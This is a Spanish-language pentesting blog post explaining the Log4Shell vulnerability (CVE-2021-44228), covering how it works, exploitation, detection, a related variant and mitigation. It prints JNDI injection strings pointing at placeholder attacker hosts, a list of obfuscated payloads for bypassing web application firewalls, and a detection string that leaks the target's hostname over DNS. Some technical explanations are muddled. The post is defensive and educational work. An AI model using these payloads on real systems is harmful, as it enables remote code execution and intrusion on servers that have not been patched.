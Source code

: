 ```yaml
---
layout: single
title: 'Log4Shell (CVE-2021-44228) Explicación de la vulnerabilidad | Pentesting'
excerpt: "La vulnerabilidad Log4Shell hay estado revolucionando a las empresas desde que se descubrió, en este post contaré en que consiste, como detectarla, explotarla y mitigarla."
date: 2021-12-16
header:
  teaser: /assets/images/log4shell/logo.png
  teaser_home_page: true
categories:
  - post
  - article
tags:  
  - log4shell
  - cve-2021-44228
  - log4j
  - java
  - zero-day
  - cybersecurity
show_time: true
toc: true
toc_label: "Content"
toc_sticky: true
---
```


# Contextualización

La vulnerabilidad de tipo RCE ocurre debido a que la función `log4j2.formatMsgNoLookups` existente en la librería JNDI, la cual se usa para acceder a recursos externos o referencias de Java y esta no realiza un correcto control del valor cargado, seguidamente con LDAP indicamos donde se quiere acceder. Así que, quien ataque puede enviar una petición, ya sea:

- Para obtener recursos mediante la inyección de código previamente encodeada en Base 64.
- Obtener una conexión reversa (reverse shell) a través de la carga remota de un archivo escrito en Java y ya compilado, `Exploit.class` el cual se va interpretar al ser cargado por el servidor.
- Ejecución de código arbitrario sobre el servidor objetivo.

Ya que el servidor descarga, almacena y carga lo que obtenga por parte del recurso externo (en el caso de un atacante, su propio servidor).

# Exploit

El payload lleva comúnmente el formato `${jndi:ldap://IP_SERVER_ATACANTE/file}`

- El atacante envía un parámetro manipulado ( por ejemplo ?x=) al servidor (por HTTP u otro protocolo). Por ejemplo la siguiente cadena: `${jndi:ldap://sitio-malicioso.com/exp}` mediante una petición GET.
- El servidor vulnerable recibe la solicitud con el *payload*.
- La vulnerabilidad en *Log4j* permite que el *payload* se ejecute y el servidor realiza una petición al sitio del atacante. La petición se realiza a través del protocolo JNDI.
- La respuesta desde el servidor del atacante contiene un archivo Java remoto (por ejemplo, un archivo *exploit.class*) que se inyecta en el proceso que está ejecutando el servidor vulnerable.
- Se ejecuta código en el servidor vulnerable.

<a href="/assets/images/log4shell/explotacion.png"><img src="/assets/images/log4shell/explotacion.png"></a>

Aunque el payload puede ser interceptada por un WAF fácilmente, este se puede bypassear de ilimitadas formas:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

Estos consisten en variar y tratar de que no se envíe de forma clara el payload.

Además hay otro protocolo que se puede aprovechar, `rmi` el cual se puede usar con la utilidad `mashalsec` y se ve en el último payload mostrado.

<a href="/assets/images/log4shell/defensas.png"><img src="/assets/images/log4shell/defensas.png"></a>

> Nota: Hay que considerar que cada producto afectado (Apache, Cisco, RedHat, Citrix, etc.. )de 4j en base a su configuración u arquitectura de red se explotan de forma diferente. (En la mayoría basta con la modificación del payload para bypassear posibles WAFs)
> 

# Detección

Para detectar la vulnerabilidad sin causar daños al activo, deberemos realizar los pasos mostrados en la sección de Explotación. Pero tratando se usar un payload que simplemente accedamos a nuestro servidor, por ejemplo: `${jndi:ldap://IP_SERVER_ATACANTE}`

Posteriormente al lanzarla ya sea con ese payload o una variante a modo de bypass, si recibimos una petición en nuestro servidor, podremos confirmar que nuestro objetivo es vulnerable.

Hay varias opciones a la hora de interceptar la petición:

- Montar servidor HTTP para capturar peticiones entrantes (por ejemplo, con Python) y poder así confirmar que se ha recibido la petición al servidor a la que apuntabamos en el código inyectado.
- Podemos ayudarnos de un servidor DNS, para que mediante el encodeo del nombre del target en la petición, se reciba la petición con el nombre del host afectado, confirmando así que es vulnerable.
    
    Ejemplo: `${jndi:ldap://x${hostName}.dns1.myserver.com/a}`
    
- Usando Nuclei y utilizando como servidor receptor de peticiones `interactsh`
    - [Enlace a plantilla de Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Variantes de la vulnerabilidad

- **CVE-2021-45046**
    
    Está variante permite generar un ataque de denegación de servicios (DoS), dicha vulnerabilidad tiene una severidad relativamente baja y una complejidad de explotación alta.
    
    Dicha variante se aprovecha de la misma vulnerabilidad de JNDI, aunque a diferencia de Log4Shell esta gracias al control sobre el Mapa de Contexto de Hilos (MDC) cuando no se utiliza una patron de diseño predeterminado, se puede crear datos de entrada maliciosos mediante un patrón de búsqueda JNDI que concluye en un ataque DoS.
    

# Versiones Afectadas

`Log4j 2.0 a 2.14.1`

# Mitigación

Actualizar la librería a la versión `Log4j 2.16`

- **CVE-2021-44228:**
    - Se ha eliminado completamente la funcionalidad afectada.
- **CVE-2021-45046:**
    - Se ha eliminado el soporte para patrones de búsqueda de mensajes y se ha deshabilitado la funcionalidad JNDI por defecto.
